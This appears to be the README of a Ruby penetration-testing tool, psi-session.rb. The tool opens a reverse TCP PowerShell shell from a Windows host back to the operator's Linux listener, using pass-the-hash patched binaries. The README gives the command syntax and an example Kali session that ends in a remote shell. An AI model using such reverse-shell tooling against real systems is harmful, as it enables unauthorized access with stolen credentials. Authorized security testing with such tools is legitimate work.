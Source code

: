 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.

Syntax:

>ruby psi-session.rb DOMAIN/username password rhost lhost lport

Example:

>root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000

>Windows PowerShell running as user bob on WIN7TOOLS

>Copyright (C) 2015 Microsoft Corporation. All rights reserved.

>PS C:\Windows\system32>whoami

>win7tools\bob

>PS C:\Windows\system32> 
